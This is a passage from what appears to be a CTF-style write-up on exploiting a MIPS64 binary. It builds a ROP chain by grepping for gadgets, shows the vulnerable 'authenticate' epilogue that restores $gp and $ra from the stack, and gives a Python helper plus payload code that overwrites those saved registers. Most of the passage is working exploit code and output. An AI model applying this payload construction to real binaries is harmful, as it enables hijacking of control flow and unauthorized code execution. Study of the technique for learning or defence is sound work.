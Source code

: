 We can apply process to find a gadget for $v1: 
```
$ grep "ld \$v1, " gadgets | grep \$sp
[skip]
0x000000012001270c : ld $v1, 0x80($sp) ; sd $v0, 0xf0($sp) ; dsubu $s5, $v0, $v1 ; dsll $v0, $s5, 6 ; ld $a0, 0xb8($sp) ; ld $t9, 0xe0($sp) ; move $a1, $v0 ; sd $v1, 0xf8($sp) ; jalr $t9 ; sd $v0, 0x100($sp)
[skip]
```
It's a gadget a bit more hard to understand but we just have to take care to: do not write `$v0`, control the value of `$v9` to jump on, control the value of `$v1`. And so this gadget is a good candidate.

Finally we need to control the value of the `$gp` register but to achieve that we do not need to use a gadget, because we already control it thanks to the vuln epilogue:
```asm
.text:00000001200046A4 loc_1200046A4:                           # CODE XREF: authenticate+104↑j
.text:00000001200046A4                 move    $sp, $fp         # _
.text:00000001200046A8                 ld      $ra, 0x90+ret_addr($sp)  # Load Doubleword
.text:00000001200046AC                 ld      $fp, 0x90+var_10($sp)  # Load Doubleword
.text:00000001200046B0                 ld      $gp, 0x90+var_18($sp)  # Load Doubleword
.text:00000001200046B4                 daddiu  $sp, 0x90        # Doubleword Add Immediate Unsigned
.text:00000001200046B8                 jr      $ra              # Jump Register
.text:00000001200046BC                 nop
```

## Put all together

For the pruposes of mips exploitation I developped a small function in python which inserts automatically a value at an arbitrary offset.

```py
def make_pld(s, val, pos):
    if len(s) == pos:
        print(f"[*] Gadget: s += {val}")
        s += val
        return s
    elif len(s) > pos:
        print(f"[*] Gadget: {s[:pos-1]} + {val} + {s[pos-1+len(val):]}")
        s = s[:pos-1] + val + s[pos-1+len(val):]
        return s 
    elif len(s) < pos:
        k = "\x00"*(pos-len(s))
        print(f"[*] Gadget: {s} + {k} + {val}")
        return s + b"\x00"*(pos-len(s)) + val
```

It's very useful because we are then able to give the right offset about the stack pointer when we execute the gadgets.
We can begin by overwriting the value of the saved `$gp` and `$ra`:
```py
GP = 0x120048020
BASE_RSP = 0x90

pld  = make_pld(b"", p64(GP), BASE_RSP-0x18) # $gp
pld  = make_pld(pld, p64(SET_V1), BASE_RSP-0x8) # $ra
```
BASE_RSP is the offset of the input's buffer about the `$sp` address when we return and so when we start to execute some gadgets.
We indicate the gadget to execute which is the gadget which sets `$v1` register to zero.
